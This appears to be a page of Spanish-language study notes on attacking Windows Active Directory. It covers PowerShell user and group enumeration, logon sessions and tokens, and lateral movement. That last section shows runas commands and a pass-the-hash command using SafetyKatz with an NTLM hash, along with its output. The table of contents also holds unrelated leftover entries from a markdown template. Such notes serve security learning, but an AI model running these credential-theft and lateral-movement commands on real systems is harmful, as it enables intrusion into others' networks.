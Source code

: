 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
  - [runas](#runas).
  - *[Pass-The-Hash](#Pass-The-Hash)*.
- [insertar imágenes](#insertar-imagenes).
- [Insertar enlaces](#insertar-enlaces).
- [Hacer anclaje](#hacer-anclaje).
- [Insertar una línea de código](#insertar-una-linea-de-codigo).
- [Insertar un bloque de código](#insertar-un-bloque-de-codigo).
- [Resaltar el código](#resaltar-el-codigo).
- [Insertar tablas](#insertar-tablas).
- [Otras referencias sobre Markdown](#otras-referencias-sobre-markdown).

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-The-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
